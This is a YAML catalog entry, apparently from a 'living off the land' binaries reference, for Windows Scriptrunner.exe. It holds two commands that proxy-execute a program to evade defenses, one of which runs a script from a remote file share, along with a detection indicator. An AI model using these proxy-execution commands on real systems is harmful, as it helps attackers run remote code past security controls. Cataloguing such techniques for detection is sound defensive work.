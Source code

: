 ```yaml
---
name: Scriptrunner.exe
description: 
functions:
  execute:
    - description: Executes calc.exe
      code: Scriptrunner.exe -appvscript calc.exe
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary through proxy binary to evade defensive counter measurments
    - description: Executes calc.cmde from remote server
      code: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary through proxy binary  from external server to evade defensive counter measurments
resources:
    - resource: https://twitter.com/KyleHanslovan/status/914800377580503040
    - resource: https://twitter.com/NickTyrer/status/914234924655312896
    - resource: https://github.com/MoooKitty/Code-Execution
fullpath:
    - path: C:\Windows\System32\scriptrunner.exe
    - path: C:\Windows\SysWOW64\scriptrunner.exe
detection:
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```

